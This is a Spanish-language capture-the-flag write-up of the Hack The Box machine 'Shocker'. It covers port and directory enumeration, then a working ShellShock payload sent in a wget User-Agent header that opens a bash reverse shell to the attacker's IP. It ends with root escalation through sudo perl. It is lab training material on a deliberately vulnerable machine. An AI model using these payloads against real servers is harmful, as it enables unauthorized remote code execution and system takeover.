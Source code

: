 ```yaml
---
title: "Shocker - HTB Writeup"
layout: single
excerpt:
show_date: true
classes: wide
header:
  teaser: "https://user-images.githubusercontent.com/67548295/126992433-efd2ea6c-4892-433f-86e7-8f19e31063ac.png"
  teaser_home_page: true
  icon: "assets/images/icons/HackTheBox-icon.png"
categories:
  - Writeup
  - HackTheBox
tags:
  - ShellShock
  - Perl
  - sudo
---
```



![titulo](https://user-images.githubusercontent.com/67548295/124353510-76699200-dbf6-11eb-81f4-54547de662d1.png)


# Enumeración

Primero, antes de empezar a escanear puertos y todo lo demás, voy a lanzar una traza ICMP con ```ping``` para ver si la máquina está activa:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $ping -c 1 10.10.10.56
PING 10.10.10.56 (10.10.10.56) 56(84) bytes of data.
64 bytes from 10.10.10.56: icmp_seq=1 ttl=63 time=69.3 ms

--- 10.10.10.56 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 69.344/69.344/69.344/0.000 ms
```

La máquina nos contesta, quiere decir que está activa, y además mediante el TTL puedo ver que es una máquina con OS Linux.

Más información sobre la deteccion de OS mediante TTL [aquí](https://subinsb.com/default-device-ttl-values/).

También puedes hacer uso de mi herramienta [OSidentifier](https://github.com/z3robyte/OSidentifier).

# Nmap

Comenzamos con el escaneo de puertos:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $nmap --open -n -T5 10.10.10.56 -sC -sV
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-03 13:11 WEST
Nmap scan report for 10.10.10.56
Host is up (0.071s latency).
Not shown: 691 closed ports, 307 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesnt have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.56 seconds
```

Podemos ver que tenemos el puerto 2222 y 80:
* 80 --> HTTP
* 2222 --> SSH

# User

Vamos a ver lo que hay en el servidor web que hay por el puerto 80:

![navegador1](https://user-images.githubusercontent.com/67548295/124353831-6baffc80-dbf8-11eb-8a89-943741d1ca3a.png)

Y podemos ver que solo hay una simple imagen.

Después de esto, hago uso de la herramienta ```wfuzz``` para enumerar directorios en la web:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wfuzz -c --hc=404 -w /usr/share/dirb/wordlists/big.txt -u "http://10.10.10.56/FUZZ" -t 50

********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.10.56/FUZZ
Total requests: 20469

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                                   
=====================================================================

000000016:   403        11 L     32 W       295 Ch      ".htpasswd"                                                                                                               
000000015:   403        11 L     32 W       295 Ch      ".htaccess"                                                                                                               
000004349:   403        11 L     32 W       294 Ch      "cgi-bin/"                                                                                                                
```
Y vemos que hay un directorio cgi-bin. Seguidamente pruebo a fuzzear en ese directorio en busca de archivos con extensiones comunes.

Ya que si hay archivos y la version de bash es vulnerable, podriamos aprovecharnos de la vulnerabilidad ShellShock para ganar acceso al sistema.

ShellShock es una vulnerabilidad descubierta en 2014 que permite ejecutar codigo de forma remota en la maquina de la victima, [CVE-2014-6271](https://nvd.nist.gov/vuln/detail/CVE-2014-6271)

Esta vulnerabilidad es posible porque porque bash permite declarar funciones, pero estas no se validan de forma correcta cuando se almacenan en una variable.

Sabiendo esto, fuzzeo por esa ruta encontrada: 

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $gobuster dir -u "http://10.10.10.56/cgi-bin/" -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 50 -x php,sh,py
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.56/cgi-bin/
[+] Threads:        50
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,sh,py
[+] Timeout:        10s
===============================================================
2021/07/03 13:46:57 Starting gobuster
===============================================================
/user.sh (Status: 200)
```
Hay un script con nombre _user.sh_, lo descargo pero no hay nada interesante en el.

Pruebo a ver si es vulnerable a la vulnerabilidad ShellShock:

```bash
|─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "ping -c 1 10.10.16.15"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:54:39--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 500 Internal Server Error
2021-07-03 13:54:40 ERROR 500: Internal Server Error.
```

Ahi he probado a mandarme una traza icmp a mi maquina mientras estaba en escucha con ```tcpdump```
y me ha llegado la petición:

```bash
┌──[z3r0byte@z3r0byte]─[~]
└──╼ $sudo tcpdump -i tun0 icmp
 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
13:54:40.138435 IP 10.10.10.56 > 10.10.16.15: ICMP echo request, id 13628, seq 1, length 64
13:54:40.138492 IP 10.10.16.15 > 10.10.10.56: ICMP echo reply, id 13628, seq 1, length 64

```

Pues bueno, ya teniendo ejecución remota de comandos, es muy sencillo ganar acceso al sistema.

Una simple reverse shell en bash sirve:

```bash
┌─[z3r0byte@z3r0byte]─[~/CTF/HTB/Shocker/nmap]
└──╼ $wget -U '() { :;}; /bin/bash -c "bash -i >& /dev/tcp/10.10.16.15/4444 0>&1"' http://10.10.10.56/cgi-bin/user.sh
--2021-07-03 13:59:05--  http://10.10.10.56/cgi-bin/user.sh
Conectando con 10.10.10.56:80... conectado.
Petición HTTP enviada, esperando respuesta... 
```
Hacemos la petición a la vez que estamos en escucha por el puerto especificado en la reverse shell.

Y obtenemos acceso al sistema:

```bash
┌─[z3r0byte@z3r0byte]─[~]
└──╼ $nc -lvnp 4444
Listening on 0.0.0.0 4444
Connection received on 10.10.10.56 42136
bash: no job control in this shell
shelly@Shocker:/usr/lib/cgi-bin$ 
```

A partir de aqui podemos ver la flag del user:

```bash
shelly@Shocker:/usr/lib/cgi-bin$ cat /home/shelly/user.txt

cf33XXXXXXXXXXXXXXXXXXXXd5c573fd

shelly@Shocker:/usr/lib/cgi-bin$
```

# Privilege Escalation

Enumerando el sistema en busca de un vector para escalar privilegios, me encuentro que podemos ejecutar ```perl``` como el usuario root:

```bash
shelly@Shocker:/$ sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
shelly@Shocker:/$ 
```
Hago uso de la utilidad [GTFObins](https://gtfobins.github.io/) para spawnear una bash con perl:

![navegador2](https://user-images.githubusercontent.com/67548295/124355337-1546bc00-dc00-11eb-87aa-a0b3d8374d22.png)

Como se puede ver, podemos generar una shell con ese comando. Como podemos correr perl como root, ya podemos rootear la maquina:

```bash
shelly@Shocker:/$ sudo /usr/bin/perl -e 'exec "/bin/sh";'

# id

uid=0(root) gid=0(root) groups=0(root)
```

Y listo, máquina rooteada. En /root/ podremos ver la flag de root:

```bash
# cat /root/root.txt

2eb63e9XXXXXXXXXXXXXXXXXXXX90d45
```

# Opinión

La máquina ha sido bastante facil, pero a la vez me ha permitido repasar conceptos, me ha gustado.




